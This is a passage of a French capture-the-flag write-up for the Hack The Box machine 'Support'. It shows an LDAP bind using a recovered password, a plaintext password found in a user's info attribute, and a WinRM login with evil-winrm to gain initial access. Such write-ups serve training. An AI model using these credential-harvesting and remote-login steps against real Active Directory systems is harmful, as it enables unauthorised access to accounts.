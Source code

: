 <div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-key mr-2 text-green-500"></i>
        Mot de passe LDAP : <code>nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz</code>
    </p>
</div>


## 🧩 Phase 4 — Connexion LDAP

Configuration hosts :

```bash
echo '10.129.178.26 support.htb' | sudo tee -a /etc/hosts
```

Connexion LDAP :

```bash
ldapsearch -h support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Connexion LDAP réussie \! Énumération des objets Active Directory possible.
    </p>
</div>


## 🧍 Phase 5 — Découverte du compte support

Dans CN=Users, l'objet support contient :

```
info: Ironside47pleasure40Watchful
memberOf: Remote Management Users
```

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Mot de passe en clair trouvé \!</strong> Le groupe Remote Management Users permet la connexion WinRM.
    </p>
</div>


## 💻 Phase 6 — Accès initial WinRM

Connexion :

```bash
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
